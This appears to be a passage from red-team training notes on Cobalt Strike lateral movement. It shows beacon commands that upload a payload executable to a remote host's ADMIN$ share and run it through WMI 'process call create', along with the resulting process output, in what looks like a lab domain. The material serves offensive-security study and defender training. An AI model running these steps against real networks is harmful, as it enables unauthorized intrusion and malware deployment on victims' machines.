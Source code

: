 <figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Windows Management Instrumentation (WMI)

As you may have noticed, WMI is not part of the <mark style="color:yellow;">`jump`</mark> command but it is apart of the <mark style="color:yellow;">`remote-exec`</mark>.

The <mark style="color:yellow;">`remote-exec`</mark> method uses WMI's _**"process call create"**_ <mark style="color:yellow;">to execute any command we specify on the target</mark>.

<mark style="color:green;">The most straightforward means of using this is to upload a payload to the target system and use WMI to execute it</mark>.

### File Upload via WMI

**We can&#x20;**<mark style="color:yellow;">**upload files to a remote machine by**</mark><mark style="color:yellow;">**&#x20;**</mark><mark style="color:yellow;">**`cd`**</mark><mark style="color:yellow;">**'ing into the desired**</mark><mark style="color:yellow;">**&#x20;**</mark><mark style="color:yellow;">**`UNC`**</mark><mark style="color:yellow;">**&#x20;**</mark><mark style="color:yellow;">**path and then use the**</mark><mark style="color:yellow;">**&#x20;**</mark><mark style="color:yellow;">**`upload`**</mark><mark style="color:yellow;">**&#x20;**</mark><mark style="color:yellow;">**command**</mark>**:**

```
beacon> cd \\web.dev.cyberbotic.io\ADMIN$
beacon> upload C:\Payloads\smb_x64.exe
beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
Started process 3280 on web.dev.cyberbotic.io
```
